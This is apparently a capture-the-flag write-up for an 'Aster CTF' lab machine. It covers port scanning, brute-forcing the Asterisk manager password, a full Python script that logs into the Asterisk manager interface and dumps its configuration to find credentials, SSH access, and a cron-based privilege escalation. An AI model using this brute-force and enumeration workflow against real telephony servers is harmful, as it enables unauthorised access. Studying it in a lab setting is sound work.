# Port Scanning
```bash
❯ rustscan -a 10.80.171.35 -- -A

Open 10.80.171.35:22
Open 10.80.171.35:80
Open 10.80.171.35:1720
Open 10.80.171.35:2000
Open 10.80.171.35:5038

PORT     STATE SERVICE     REASON         VERSION
22/tcp   open  ssh         syn-ack ttl 62 OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fe:e3:52:06:50:93:2e:3f:7a:aa:fc:69:dd:cd:14:a2 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDEs6oKJb5SNNUczex8j97pL/V93XRaRytbAH7iR9pN0HbCmc2bD/Rg4IUuDArz4USY1G5aN0r+C3fcBSlmLWaqk+uzbNZFriELMcJPKa7tP7zx7o4TVMQDepvvcZUy9Z8QoA+n4cJYOjlldkWGq/dmsPQqBHDmHowxMauJkZxh2QVR0WpDZxcjbS26O8aC62QvT5ct9wgzBzD/dVV/SC3VH7sQOPsEFj+PHGoHrFz7MntxtRyR9Ujf+Dzbk2wnUVGrc6NZt8MV3vfo5nXjBRPTaIX6XNTijQxoj0/0NJ3YwntmHOQXaPu4++fzjP9cf4+r8PNppeKNYwWLRxzjnAiZ
|   256 9c:4d:fd:a4:4e:18:ca:e2:c0:01:84:8c:d2:7a:51:f2 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPROPGV3YntCB4YEBuSk7u8qF0H9WxI9nTGbCJahJP4gJNcEj4uwn24Ep1eSs0kHxjFdri6+QQlPUygwRvAQqTs=
|   256 c5:93:a6:0c:01:8a:68:63:d7:84:16:dc:2c:0a:96:1d (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPrB46mC2C71WGXfIc9TwwLWhC99D9M2IxUHbQCbH0vp
80/tcp   open  http        syn-ack ttl 62 Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Aster CTF
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
1720/tcp open  h323q931?   syn-ack ttl 62
2000/tcp open  cisco-sccp? syn-ack ttl 62
5038/tcp open  asterisk    syn-ack ttl 62 Asterisk Call Manager 5.0.2
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 3.8 - 3.16 (96%), Linux 3.10 - 3.13 (96%), Linux 3.13 (96%), Linux 4.4 (96%), Linux 5.4 (95%), Sony Android TV (Android 5.0) (92%), Android 5.0 - 6.0.1 (Linux 3.4) (92%), Android 5.1 (92%), Android 6.0 - 9.0 (Linux 3.18 - 4.4) (92%), Android 7.1.1 - 7.1.2 (92%)
No exact OS matches for host (test conditions non-ideal).
```
Visiting the webpage I found a download button. <br/>
 <br/>
Clicking the download button I downloaded a python binary. <br/>
 <br/>
Using online decompiler I decompiled the binary.  <br/>
 <br/>
There I found two long hex string. Using cyberchef I decrypted the string and found a username `admin`. <br/>
 <br/>
I tried to connected to port 5038. It revealed the following information. <br/>
 <br/>
Googling with this I found a metasploit scanner for bruteforcing the password. (It can also be done with hydra though.). Using the scanner I brute forced for the correct password. <br/>
 <br/>
So the password for running asterisk server is `abc123`. <br/>
After researching more. Using AI I developed a python asterisk enumeration script.
```python3
#!/usr/bin/env python3
"""
Asterisk AMI Enumeration Script
Python 3 version
"""

import socket
import time
import sys
import re
from typing import Dict, List, Tuple

class AsteriskAMI:
    def __init__(self, host: str, port: int = 5038):
        self.host = host
        self.port = port
        self.sock = None
        self.buffer = ""
    
    def connect(self) -> bool:
        """Connect to Asterisk AMI"""
        try:
            self.sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            self.sock.settimeout(5)
            self.sock.connect((self.host, self.port))
            # Read initial banner
            response = self.sock.recv(1024).decode('utf-8', errors='ignore')
            print(f"[+] Connected to {self.host}:{self.port}")
            return True
        except Exception as e:
            print(f"[-] Connection failed: {e}")
            return False
    
    def send_command(self, cmd: str) -> str:
        """Send a command to AMI and return response"""
        if not self.sock:
            return ""
        
        try:
            # Send command
            self.sock.send((cmd + '\n').encode('utf-8'))
            time.sleep(0.3)
            
            # Receive response
            response = ""
            while True:
                try:
                    data = self.sock.recv(4096).decode('utf-8', errors='ignore')
                    if not data:
                        break
                    response += data
                    # Check if we have a complete response (ends with empty line)
                    if '\n\n' in response:
                        break
                except socket.timeout:
                    break
            
            return response.strip()
        except Exception as e:
            print(f"[-] Error sending command: {e}")
            return ""
    
    def login(self, username: str, secret: str) -> bool:
        """Login to AMI"""
        print(f"[+] Attempting login with {username}:{secret}")
        
        # Send login commands
        self.send_command("Action: Login")
        self.send_command(f"Username: {username}")
        self.send_command(f"Secret: {secret}")
        response = self.send_command("")
        
        if "Authentication accepted" in response:
            print("[+] Login successful!")
            return True
        else:
            print("[-] Login failed!")
            print(response)
            return False
    
    def execute_action(self, action: str, params: Dict[str, str] = None) -> str:
        """Execute an AMI action"""
        cmd = f"Action: {action}"
        if params:
            for key, value in params.items():
                cmd += f"\n{key}: {value}"
        return self.send_command(cmd + "\n")
    
    def execute_command(self, command: str) -> str:
        """Execute an Asterisk CLI command via AMI"""
        return self.execute_action("Command", {"Command": command})
    
    def disconnect(self):
        """Close connection"""
        if self.sock:
            self.send_command("Action: Logoff")
            self.sock.close()
            print("[+] Disconnected")

def print_section(title: str):
    """Print a formatted section header"""
    print("\n" + "="*60)
    print(f"  {title}")
    print("="*60)

def format_output(data: str, max_lines: int = 50):
    """Format and truncate output if needed"""
    lines = data.split('\n')
    if len(lines) > max_lines:
        for line in lines[:max_lines]:
            print(line)
        print(f"... (truncated, {len(lines) - max_lines} more lines)")
    else:
        for line in lines:
            print(line)

def main():
    # Configuration
    HOST = "10.80.171.35"
    PORT = 5038
    USERNAME = "admin"
    PASSWORD = "abc123"
    
    # Initialize connection
    ami = AsteriskAMI(HOST, PORT)
    
    if not ami.connect():
        sys.exit(1)
    
    # Login
    if not ami.login(USERNAME, PASSWORD):
        ami.disconnect()
        sys.exit(1)
    
    # Commands to enumerate
    commands = {
        "1. System Information": [
            "core show version",
            "core show system",
            "core show uptime"
        ],
        "2. Loaded Modules": [
            "module show",
            "module show like chan_sip",
            "module show like res_musiconhold"
        ],
        "3. SIP Configuration": [
            "sip show peers",
            "sip show users",
            "sip show registry",
            "sip show subscriptions"
        ],
        "4. IAX2 Configuration": [
            "iax2 show peers",
            "iax2 show users"
        ],
        "5. Dialplan": [
            "dialplan show",
            "dialplan show CTF",
            "show dialplan"
        ],
        "6. Database": [
            "database show",
            "database show CTF"
        ],
        "7. Voicemail": [
            "voicemail show users",
            "voicemail show mailboxes",
            "voicemail show settings"
        ],
        "8. Channels & Calls": [
            "core show channels",
            "core show channeltypes"
        ],
        "9. Queue & Agents": [
            "queue show",
            "agent show"
        ],
        "10. MeetMe/Conferences": [
            "meetme list"
        ],
        "11. Security & ACL": [
            "acl show"
        ],
        "12. Misc": [
            "help",
            "show applications",
            "show functions",
            "show globals",
            "features show"
        ]
    }
    
    # Execute commands
    all_output = {}
    
    for section, cmd_list in commands.items():
        print_section(section)
        for cmd in cmd_list:
            print(f"\n[+] Executing: {cmd}")
            try:
                response = ami.execute_command(cmd)
                if response:
                    print("-" * 40)
                    format_output(response)
                    all_output[cmd] = response
                else:
                    print("  (No response or command not available)")
            except Exception as e:
                print(f"  [!] Error: {e}")
        
        time.sleep(0.5)  # Small delay between sections
    
    # Search for potential flags
    print_section("SEARCHING FOR FLAGS")
    flag_patterns = [
        r'(?:FLAG|flag|Flag|CTF|ctf)\{[^}]+\}',
        r'(?:FLAG|flag|Flag|CTF|ctf)\s*=\s*[^\s]+',
        r'(?:SECRET|secret|Secret)\s*=\s*[^\s]+',
        r'Password:\s*[^\s]+',
        r'password\s*=\s*[^\s]+'
    ]
    
    print("[+] Searching for potential flags/secrets in responses...")
    for cmd, output in all_output.items():
        for pattern in flag_patterns:
            matches = re.findall(pattern, output, re.IGNORECASE)
            if matches:
                print(f"\n[!] Found match in: {cmd}")
                for match in matches:
                    print(f"    {match}")
    
    # Clean up
    ami.disconnect()

if __name__ == "__main__":
    try:
        main()
    except KeyboardInterrupt:
        print("\n[!] Interrupted by user")
    except Exception as e:
        print(f"\n[!] Unexpected error: {e}")
```
Using this script I enumerated user `harry` and his password. <br/>
 <br/>
Using this password, I logged in via ssh. <br/>
 <br/>
Found the user flag. <br/>
# Privilege Escalation
There I found another `.jar` file. Transferred the file to my local machine and decompile it using online decompiler. <br/>
 <br/>
Again enumerating the cronjobs I found: <br/>
 <br/>
A script is running by root. So I assumed the `.jar` is a hint. So I created a file named `/tmp/flag.dat` and waited for the `root.txt`. <br/>
 <br/>
And found the root flag. <br/>